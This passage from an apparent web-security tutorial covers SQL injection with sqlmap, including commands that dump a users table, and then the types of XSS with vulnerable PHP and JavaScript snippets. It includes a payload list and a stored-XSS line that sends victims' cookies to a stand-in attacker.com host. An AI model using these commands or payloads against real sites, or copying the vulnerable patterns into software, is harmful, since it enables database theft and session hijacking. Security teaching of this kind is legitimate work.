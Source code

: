 ### Tools

```bash
# SQLMap - Automated SQL injection
sqlmap -u "http://target.com/page?id=1"
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --dump

# With POST data
sqlmap -u "http://target.com/login" --data="username=test&password=test"

# With cookies
sqlmap -u "http://target.com/page" --cookie="PHPSESSID=abc123"
```

## 🎭 Cross-Site Scripting (XSS)

### Types of XSS

**1. Reflected XSS:**
```html
<!-- Vulnerable code -->
<p>Hello, <?php echo $_GET['name']; ?></p>

<!-- Payload -->
http://target.com/page?name=<script>alert('XSS')</script>
```

**2. Stored XSS:**
```html
<!-- Comment stored in database with XSS payload -->
Comment: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

**3. DOM-Based XSS:**
```javascript
// Vulnerable JavaScript
var search = document.location.hash.substring(1);
document.write("Results for: " + search);

// Exploit
http://target.com/search#<img src=x onerror=alert('XSS')>
```

### Common XSS Payloads

**Basic Alert:**
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
<body onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
```
